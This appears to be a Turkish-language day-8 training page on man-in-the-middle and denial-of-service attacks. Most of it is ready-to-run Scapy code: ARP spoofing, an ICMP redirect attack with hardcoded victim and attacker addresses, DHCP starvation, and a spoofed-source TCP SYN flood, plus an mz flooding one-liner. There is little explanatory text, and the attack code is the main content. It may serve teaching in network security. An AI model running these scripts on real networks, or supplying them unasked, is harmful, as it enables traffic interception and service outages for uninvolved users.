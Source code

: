 ##  8.Gün 28.07.2018

## Man in the Middle (MitM)

    MitM      Layer   DHCP    DNS

    Layer-2    TCP

    Layer-3    UDP

    DHCP

**ARP ile**
```

 echo 1 > /proc/sys/net/ipv4/ip_forward # Routing activation

 eth = Ether(dst="DEST_MAC",src="SRC_MAC")

 arp = ARP(op=1, hwsrc="SRC_MAC",psrc=<"SRC_IP">,pdst=<"DEST_IP">, hwdst=<"DEST_MAC">)

 sendp(eth/arp)
 
```

**ICMP Redirect ile**
```
# MitM against:
# - static ARP entries
# - Dynamic ARP inspection

# Prerequisites:
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A POSTROUTING -s 10.100.13.0/255.255.255.0 -o tap0 -j MASQUERADE

# Creating and sending ICMP redirect packets between these entities:
#import logging
#logging.getLogger("scapy").setLevel(1)

from scapy.all import *

originalRouterIP='10.6.7.254'
attackerIP='10.6.4.90'
victimIP='10.6.6.6'
serverIP='188.132.200.17'

#Here we create an ICMP Redirect packet
ip=IP()
ip.src=originalRouterIP
ip.dst=victimIP
icmpRedirect=ICMP()
icmpRedirect.type=5
icmpRedirect.code=1
icmpRedirect.gw=attackerIP

#The ICMP packet payload /should/ :) contain the original TCP SYN packet
#sent from the victimIP
redirPayloadIP=IP()
redirPayloadIP.src=victimIP
redirPayloadIP.dst=serverIP
fakeOriginalTCPSYN=TCP()
fakeOriginalTCPSYN.flags="S"
fakeOriginalTCPSYN.dport=80
fakeOriginalTCPSYN.seq=444444444
fakeOriginalTCPSYN.sport=55555

#Release the Kraken!
while True:
        send(ip/icmpRedirect/redirPayloadIP/fakeOriginalTCPSYN)
        
```

Paket kaynak kısmını değiştirmek için iptables kullanılabilir.
```
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**DHCP**

- DHCP servisi (yok ise kurulmalıdır) ile gateway adresini değiştirilir
- DHCP sunucusundaki havuzu doldurmak (DHCP-Starvation)

```
$ scapy
for i in range(1,255):
    mac = str(RandMAC())
    dhcpServerID="192.168.255.251"
    eth = Ether(dst="ff:ff:ff:ff:ff:ff",src=mac)
    ip  = IP(src="0.0.0.0",dst="255.255.255.255")
    ud  = UDP(sport=68,dport=67)
    bootp = BOOTP(chaddr=mac)
    dhcp = DHCP(options = [ ("message-type","request"),("requested_addr","192.168.255."+str(i)),("server_id",dhcpServerID),"end"])
    sendp(eth/ip/ud/bootp/dhcp)
```
Yukarıdaki işlemden sonra DHCP sunucusu ile IP isteği yapan hedef makinelere IP vererek trafiği incelenir.

**TCP**

TCP/DoS saldırısı daha etkili olması için TCP/SYN paketinin source IP ve port bilgileri değiştirilir. 

```
$ scapy
ip = IP(src=RandIP(),dst="0.0.0.0")
tcp = TCP(sport=RandShort(),dport=80,flags="S")
paket = ip/tcp
send(paket,loop=1)
```

mz aracı ile:
```
mz -B <IP> -t tcp "sp=1-65535, dp=80, flags=syn" -c 0
```

